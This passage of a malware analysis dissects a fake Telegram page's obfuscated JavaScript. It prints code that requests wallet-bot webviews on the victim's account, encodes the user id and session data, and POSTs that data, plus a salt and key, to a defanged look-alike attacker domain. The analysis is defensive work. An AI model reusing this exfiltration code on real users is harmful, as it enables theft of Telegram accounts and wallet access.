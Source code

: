 For each miniApp, the code is fetched and then pushed to an array of objects, each containing a user and the miniApp response:
```js
          a1_0x505657.managers.appAttachMenuBotsManager.requestWebView({
            'botId': _0xa8a0cd.id,
            'peerId': +_0xa8a0cd.id,
            'url': "https://walletbot.me/wv",
            'fromBotMenu': false,
            'hash': _0x4906b6,
            'platform': "ios"
          }).then(_0x37e995 => {
            var _0x13b1d9 = _0x387b9e(JSON.stringify({
              'user': a1_0x505657.myId,
              'message': btoa(encodeURI(_0x37e995.url.substring(0x14)))
            }));
            _0x417166.push(btoa(_0x13b1d9));
          }
```
Afterwards, the data is POSTed to the server:
```js
w.post('/' + _0x37c264() + "/receive/" + _0x37c264(), {
              'image': btoa(_0x7c3357)
            }, {
              'headers': {
                'Content-Type': "application/json"
              }
            })["catch"]();
```

The full URL of the POST looks like this:
```
hxxps[://]telegram[.]org-org[.]ru/j4xQW/flow/0hhGae3FlGTazt
```
However the two random-looking bits from the URL do not matter, as they are randomly generated, as we can see from the way the URL is created:
```js
      var _0x1251db = encodeURIComponent(JSON.stringify({
        'salt': _0x5a9359,
        'key': _0x229cf2
      }));
      var _0x2a9f54 = _0x387b9e(_0x1251db);
      w.post('/' + _0x37c264() + "/settings/" + _0x37c264(), {
        'image': btoa(_0x2a9f54)
      }
```
Calling the function to generate strings of random length twice:
```js
  function _0x37c264() {
    let _0x29c678 = '';
    const _0x165d98 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789".length;
    let _0x1ff2ca = 0x0;
    let _0x1f496a = Math.floor(Math.random() * 0xa) + 0x5;
    for (; _0x1ff2ca < _0x1f496a;) {
      _0x29c678 += "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789".charAt(Math.floor(Math.random() * _0x165d98));
      _0x1ff2ca += 0x1;
    }
    return _0x29c678;
  }
```
